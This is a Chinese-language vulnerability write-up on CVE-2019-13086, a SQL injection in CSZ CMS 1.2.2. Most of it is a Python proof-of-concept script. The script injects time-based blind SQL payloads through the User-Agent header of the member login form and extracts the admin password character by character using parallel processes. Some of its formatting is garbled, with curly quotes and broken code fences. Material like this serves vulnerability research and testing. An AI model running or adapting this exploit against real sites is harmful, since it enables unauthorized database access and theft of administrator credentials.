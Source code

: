 ```yaml
---
title: （CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞
id: zhfly2860
---
```


# （CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞

## 一、漏洞简介

CSZ CMS是一套基于PHP的开源内容管理系统（CMS）。 CSZ CMS 1.2.2版本（2019-06-20之前）中的core/MY_Security.php文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

CSZ CMS 1.2.2版本（2019-06-20之前）

## 三、复现过程

### poc

```
import requests
import time
import threading
import multiprocessing

pool=“admin$ABCDEFGHIJKLMNOPQRSTUVWXYZ”+" "+“bcefghjklopqrstuvwxyz1234567890/.”

mutex=0

#获取长度用的User-Agent模板

ual="’-(if((length((select name from user_admin limit 1))=10),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

#“Why don’t you just build something”

#----------------------------------------------------获取管理员用户名长度--------------------------------------------

def getlength(field,tbname,total):

ual_head="’-(if((length((select "		#这些空格一定要保留

ual_middle=" limit 1))="

num=1

ual_last="),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

```
datas={'email':'111@111.com',
	'password':'111'
}

header={'Host': 'localhost',
		'Content-Length': '74',
		'Cache-Control': 'max-age=0',
		'Origin': 'http://localhost',
		'Upgrade-Insecure-Requests': '1',
		'Content-Type': 'application/x-www-form-urlencoded',
		'User-Agent': ual,
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
		'Referer': 'http://localhost/cszcms/member/login',
		'Accept-Encoding': 'gzip, deflate',
		'Accept-Language': 'zh-CN,zh;q=0.9',
		'Connection': 'close'}

starttime=time.time()
for num in range(total):
	header['User-Agent']=ual_head+field+" from "+tbname+ual_middle+str(num)+ual_last
	#print(header['User-Agent'])
	sendtime=time.time()
	response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
	recvtime=time.time()

	doesitwork=recvtime-sendtime
	if(doesitwork&gt;5):
		print("The length is",num)
		print("This step cost:",time.time()-starttime)
		return num
		break
	if(num==total-1):
		return 0 
```

#获取内容用的User-Agent模板

ua="’-(if((ascii(substr((select name from user_admin limit 1), 1, 1))=97),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

#-----------------------------------------------------获取管理员用户名--------------------------------------------

def getcontent(field,tbname,num,qr,lock):

```
#print(num)
pool="@.tescomadin$ABCDEFGHIJKLMNOPQRSTUVWXYZ"+" "+"bcefghjklpqrstuvwxyz1234567890/."

result=[]

ua_head="'-(if((ascii(substr((select "
ua_front=" limit 1), "
ua_middle=", 1))="
char="A"
ua_last="),sleep(5),1))-'', '127.0.0.1','time') #"

datas={'email':'111@111.com',
	'password':'111'
}

header={'Host': 'localhost',
		'Content-Length': '74',
		'Cache-Control': 'max-age=0',
		'Origin': 'http://localhost',
		'Upgrade-Insecure-Requests': '1',
		'Content-Type': 'application/x-www-form-urlencoded',
		'User-Agent': ua,
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
		'Referer': 'http://localhost/cszcms/member/login',
		'Accept-Encoding': 'gzip, deflate',
		'Accept-Language': 'zh-CN,zh;q=0.9',
		'Connection': 'close'}

for i in range(1):
	for char in pool:
		header['User-Agent']=ua_head+field+" from "+tbname+ua_front+str(num+1)+ua_middle+str(ord(char))+ua_last
		#print(header['User-Agent'])

		lock.acquire()
		sendtime=time.time()
		response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
		lock.release()

		recvtime=time.time()

		doesitwork=recvtime-sendtime
		if(doesitwork&gt;5):
			#print("It cost:",doesitwork)
			print(num," got:",char)
			#adminnamelist[num]=char	
			result=[num,char]
			qr.put(result)
			break 
```

#---------------------------------------------现在！让我们重新揭起救世的大旗！------------------------------------

if **name**==‘**main**’:

```
qr=multiprocessing.Queue()
lock=multiprocessing.Lock()

field="password"
tbname="user_admin"

adminname=""
adminpwd=""

getresult=[]

#调用获得长度的函数
length=getlength(field,tbname,100)	
print("length is",length)

processes=[]

#开线程分别对每个字符匹配
timehead=time.time()

for ti in range(length):
	processes.append(multiprocessing.Process(target=getcontent,args=(field,tbname,ti,qr,lock)))
	processes[ti].start()

for ti in range(length):
	processes[ti].join()

fout=open(field+"out.txt","w+")
for ci in range(length):
	getresult.append(qr.get())
print(getresult)
for ci in range(length):
	for result in getresult:
		if(result[0]==ci):
			print(result[1])
			adminname+=result[1]

fout.write(adminname)
print(field,":",adminname)
fout.close()
print("It took:",time.time()-timehead) 
``` 
```